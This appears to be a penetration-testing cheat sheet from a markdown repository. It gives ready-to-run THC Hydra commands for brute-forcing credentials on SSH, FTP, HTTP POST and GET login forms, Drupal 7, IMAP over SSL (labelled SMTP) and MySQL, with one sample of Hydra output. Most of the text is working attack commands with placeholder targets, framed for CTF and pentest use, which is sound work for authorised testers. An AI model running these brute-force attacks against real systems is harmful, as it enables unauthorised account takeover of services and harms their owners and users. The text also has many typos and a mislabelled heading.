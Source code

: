 # THC Hydra
[THC Hydra](https://sectools.org/tool/hydra/) is a tool commonly used to brute force user credentials. Always remember that you are at the mercy of your wordlists during these types of attacks. The longer, more accurate/finely-tuned wordlist = the fatser you get positive results.
## SSH
To brute force SSH credentials, use the following command. This will brute force the credentials for the `root` user.

```
root@kali:~# hydra -l root -P /wordlists/rockyou.txt (target ip address) ssh
[WARNING] Many SSH configurations limit the number of parallel tasks, it is \
recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344423 login tries (l:1/p:0), ~14344423 tries per task
[DATA] attacking ssh://(target ip address):22/
[STATUS] 257.00 tries/min, 257 tries in 00:00h, 0 to do in 01:00h, 14344167 active
[STATUS] 245.00 tries/min, 735 tries in 00:00h, 0 to do in 03:00h, 14343689 active
[STATUS] 231.14 tries/min, 1618 tries in 00:00h, 0 to do in 07:00h, 14342806 active
```

## FTP
To brute for an FTP service with a known username try the following command.

`hydra -l (UID) -P /path/to/500-worst-passwords.txt (TARGET IP ADDRESS) ftp`

## HTTP
To brute for an HTTP form, try the following syntax with `hydra`:
### HTTP POST Form
`hydra -l (USERNAME) -P /path/to/wordlist.txt (TARGET IP ADDRESS) http-post-form "/URI/path/to/login.php:(HTML FORM USERNAME ATTRIBUTE)=^USER^&(HTML FORM PASSWORD ATTRIBUTE)=^PASS^&Login=Login:(FAILED LOGIN MESSAGE)"`

Where `HTML FORM USERNAME ATTRIBUTE` is the HTML form username "name" attribute. E.g.: `<input type=text name="username" />` In that example, the `username` value for the attribute `name` is what would be used. Same gfoes for the password: `<input type=password name="passwd" />` In that exmaple `passwd` would be used to construct the command as it is the value of the password input's name attribute. The command would then look something like so:

  ... `:username=^USER^&passwd=^PASS^` ...
  
  `hydra` will fill in the `^USER^` and `^PASS^` values upon every single HTTP request with each username and password that you mean to test.
### HTTP GET Form
The GET parameters, that you seein the URL bar, are rarely used for HTTP authentication. This is because developers do not want to make your username and password "bookmarkable." Some cases in CTF, penetratiuon testing, etc, beg to differ. To perform a GET request for a password brute force, you must understand there are some caveats. 
1. You cannot use certain characters in your password. 
This is because of the URL/HTTP transport encoding. FOr instance, sometimes a "#" in a password from `rockyou.txt` will cause an HTTP 400 Bad Request repose from the server.

Let's take a look at an HTTP GET login password brute force attempt using THC-Hydra,
```
root@attacker-machine:~# hydra -l admin -P /pwnt/passwords/wordlists/rockyou.txt (TARGET IP ADDRESS) http-get-form "/login.php:username=^USER^&password=^PASS^&Login=Login:Please Login|Bad Request"
```
As you can see, I used a pipe "|" to say "OR" to ignore Error 400 Bad Request responses form the target server.

### Drupal 7
In Drupal 7 we need to first get the form_build_id from the `./user/` directory as so,
```
root@wnl8:~# curl -s http://drupal.site/user/ | grep form_build_id | cut -d "\"" -f 6
```
Alternatively, if this does not provide a string, like, `form-uQ6n4rbHr99R2XZirfsxaa3rPmV8xpZjXWsa3-G-8Nw` for example, then simply hit CTRL+U on the `./user/` page and search for "form_build_id"
Next, we can use Hydra on Drupal as so,
```
hydra -l admin -P /wordlists/rockyou.txt (TARGET DRUPAL IP) http-form-post "/?q=user/:name=admin&pass=^PASS^&form_id=user_login&form_build_id=form-uQ6n4rbHr99R2XZirfsxaa3rPmV8xpZjXWsa3-G-8Nw:Sorry
```
And as you see, I have inserted the Drupal form ID and I am attempting to brute force the `admin` user.

## SMTP (IMAP SSL)
To brute force SMTP via SSL Authentication, you must first enumerate which port ssl/imap is runniing on using `nmap`. In our case, we found port 993 as,

```
993/tcp  open  ssl/imap   Dovecot imapd
|_imap-capabilities: ID more IDLE have IMAP4rev1 ENABLE LOGIN-REFERRALS SASL-IR LITERAL+ listed capabilities Pre-login post-login AUTH=PLAINA0001 OK
```

We also need to enumerate a valid username. We can hlearn how to do so from the [SMTP User Enumeration Module](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Enumeration/smtp-user-enumeration.md). After gathering these two pieces of information, we can use `hydra` to try to brute force the authentication like so:

`root@kali:~# hydra (TARGET IP ADDRESS) smtp -l (USERNAME) -P /path/to/wordlist.txt -V -s (TARGET PORT)`

## MySQL
To brute force MySQL services (usually running on port 3306 of the target system), use thf ollowing syntax with THC-Hydra,
```
root@attacker-system:~# hydra -l root -P /path/to/wordlist.txt (TARGET IP ADDRESS) mysql
```
